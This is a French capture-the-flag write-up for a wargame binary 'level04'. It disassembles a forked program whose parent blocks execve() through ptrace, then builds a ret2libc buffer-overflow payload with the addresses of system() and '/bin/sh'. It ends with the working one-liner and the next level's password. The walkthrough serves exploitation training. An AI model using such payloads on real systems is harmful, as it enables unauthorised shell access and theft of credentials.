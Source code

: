 # Analyse

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
```

## Binaire

`./level04`
```
Give me some shellcode, k

```
`test`
```

child is exiting...
```
## Gdb

`info function`
```asm
[...]
  0x080486c8  main
[...]
```


`disas main`
```asm
Dump of assembler code for function main:
   0x080486c8 <+0>:	push   ebp
   0x080486c9 <+1>:	mov    ebp,esp
   0x080486cb <+3>:	push   edi
   0x080486cc <+4>:	push   ebx
   0x080486cd <+5>:	and    esp,0xfffffff0
   0x080486d0 <+8>:	sub    esp,0xb0                             ; 176 octets pour la stack
   0x080486d6 <+14>:	call   0x8048550 <fork@plt>
   0x080486db <+19>:	mov    DWORD PTR [esp+0xac],eax             ; int pid @ esp+0xac = fork();
   0x080486e2 <+26>:	lea    ebx,[esp+0x20]                       ; input @ esp+0x20
   0x080486e6 <+30>:	mov    eax,0x0
   0x080486eb <+35>:	mov    edx,0x20
   0x080486f0 <+40>:	mov    edi,ebx
   0x080486f2 <+42>:	mov    ecx,edx
   0x080486f4 <+44>:	rep stos DWORD PTR es:[edi],eax             ; memset(buffer, 0, 32);
   0x080486f6 <+46>:	mov    DWORD PTR [esp+0xa8],0x0             ; int ret @ esp+0xa8 = 0
   0x08048701 <+57>:	mov    DWORD PTR [esp+0x1c],0x0             ; int status @ esp+0x1c = 0
   0x08048709 <+65>:	cmp    DWORD PTR [esp+0xac],0x0
   0x08048711 <+73>:	jne    0x8048769 <main+161>                 ; if pid != 0:  jump <+161> 
   0x08048713 <+75>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804871b <+83>:	mov    DWORD PTR [esp],0x1
   0x08048722 <+90>:	call   0x8048540 <prctl@plt>                ; prctl(1, 1);
   0x08048727 <+95>:	mov    DWORD PTR [esp+0xc],0x0
   0x0804872f <+103>:	mov    DWORD PTR [esp+0x8],0x0
   0x08048737 <+111>:	mov    DWORD PTR [esp+0x4],0x0
   0x0804873f <+119>:	mov    DWORD PTR [esp],0x0
   0x08048746 <+126>:	call   0x8048570 <ptrace@plt>               ; ptrace(0, 0, 0, 0);
   0x0804874b <+131>:	mov    DWORD PTR [esp],0x8048903
   0x08048752 <+138>:	call   0x8048500 <puts@plt>                 ; puts("Give me some shellcode, k");
   0x08048757 <+143>:	lea    eax,[esp+0x20]
   0x0804875b <+147>:	mov    DWORD PTR [esp],eax
   0x0804875e <+150>:	call   0x80484b0 <gets@plt>                 ; gets(input);
   0x08048763 <+155>:	jmp    0x804881a <main+338>                 ; jump <+338>
   0x08048768 <+160>:	nop
   0x08048769 <+161>:	lea    eax,[esp+0x1c]
   0x0804876d <+165>:	mov    DWORD PTR [esp],eax
   0x08048770 <+168>:	call   0x80484f0 <wait@plt>                 ; wait(&status);
   0x08048775 <+173>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048779 <+177>:	mov    DWORD PTR [esp+0xa0],eax
   0x08048780 <+184>:	mov    eax,DWORD PTR [esp+0xa0]
   0x08048787 <+191>:	and    eax,0x7f
   0x0804878a <+194>:	test   eax,eax
   0x0804878c <+196>:	je     0x80487ac <main+228>                 ; if status & 0x7f == 0: jump <+228>
   0x0804878e <+198>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048792 <+202>:	mov    DWORD PTR [esp+0xa4],eax
   0x08048799 <+209>:	mov    eax,DWORD PTR [esp+0xa4]
   0x080487a0 <+216>:	and    eax,0x7f
   0x080487a3 <+219>:	add    eax,0x1
   0x080487a6 <+222>:	sar    al,1
   0x080487a8 <+224>:	test   al,al
   0x080487aa <+226>:	jle    0x80487ba <main+242>                 ; if ((status & 0x7f) + 1) >> 1 <= 0: jump <+242>
   0x080487ac <+228>:	mov    DWORD PTR [esp],0x804891d
   0x080487b3 <+235>:	call   0x8048500 <puts@plt>                 ; puts("child is exiting...");
   0x080487b8 <+240>:	jmp    0x804881a <main+338>                 ; return(0);
   0x080487ba <+242>:	mov    DWORD PTR [esp+0xc],0x0
   0x080487c2 <+250>:	mov    DWORD PTR [esp+0x8],0x2c
   0x080487ca <+258>:	mov    eax,DWORD PTR [esp+0xac]
   0x080487d1 <+265>:	mov    DWORD PTR [esp+0x4],eax
   0x080487d5 <+269>:	mov    DWORD PTR [esp],0x3
   0x080487dc <+276>:	call   0x8048570 <ptrace@plt>
   0x080487e1 <+281>:	mov    DWORD PTR [esp+0xa8],eax             ; ret = ptrace(3, pid, 44, 0)
   0x080487e8 <+288>:	cmp    DWORD PTR [esp+0xa8],0xb
   0x080487f0 <+296>:	jne    0x8048768 <main+160>                 ; if ret !== 11: jump <+160> (boucle)
   0x080487f6 <+302>:	mov    DWORD PTR [esp],0x8048931
   0x080487fd <+309>:	call   0x8048500 <puts@plt>                 ; puts("no exec() for you");
   0x08048802 <+314>:	mov    DWORD PTR [esp+0x4],0x9
   0x0804880a <+322>:	mov    eax,DWORD PTR [esp+0xac]
   0x08048811 <+329>:	mov    DWORD PTR [esp],eax
   0x08048814 <+332>:	call   0x8048520 <kill@plt>                 ; kill(pid, 9);
   0x08048819 <+337>:	nop
   0x0804881a <+338>:	mov    eax,0x0                              ; return(0);
   0x0804881f <+343>:	lea    esp,[ebp-0x8]
   0x08048822 <+346>:	pop    ebx
   0x08048823 <+347>:	pop    edi
   0x08048824 <+348>:	pop    ebp
   0x08048825 <+349>:	ret
End of assembler dump.
```

# Exploit

Le programme crée un child process avec un fork() qui exécute un peu plus loin un appel à gets() sur l'input que nous contrôlons (donc vulnérable à un buffer overflow), puis return.

Le parent quant à lui boucle en suivant l'exécution du child, tant qu'il ne lance pas le syscall [11: execve()](https://redirect.cs.umbc.edu/courses/undergraduate/313/spring04/burt_katz/lectures/Lect07/syscall_offline.html):
Attend un changement de statut de l'enfant, s'il a été interrompu ou a quitté (cf. [waitstatus.h](https://github.com/lattera/glibc/blob/master/bits/waitstatus.h)), affiche "child is exiting..." et return(0); 

En sortie de boucle (l'enfant a tenté un execve()), il affiche "no exec() for you", le kill et retun(0);

La stack est exécutable, mais le check sur execve() nous empêche de lancer un shellcode classique donc on va effectuer un [retour a la libc](https://beta.hackndo.com/retour-a-la-libc/).

Pour trouver l'offset on va devoir spécifier à gdb de suivre l'exécution du process enfant et se servir comme d'habitude du [générateur de pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

`gdb level04`
- `set follow-fork-mode child`
- `r`
  ```
  Starting program: /home/users/level04/level04
  [New process 3213]
  Give me some shellcode, k
  Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

  Program received signal SIGSEGV, Segmentation fault.
  [Switching to process 3213]
  0x41326641 in ?? ()
  ```
  - Le générateur de pattern nous indique un offset de 156 pour la valeur 0x41326641

Notre exploit sera composé comme suit: [ Offset de 156 (NopSled) ] [ Adresse system() ] [ Adresse retour (osef) ] [ Adresse "/bin/sh" ].

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- L'adresse de system() est 0xf7e6aed0 (\xd0\xae\xe6\xf7)

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
- L'adresse de "/bin/sh" est 0xf7f897ec (\xec\x97\xf8\xf7)

`(python -c 'print "\x90" * 156 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7"'; cat - ) | ./level04`
```
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
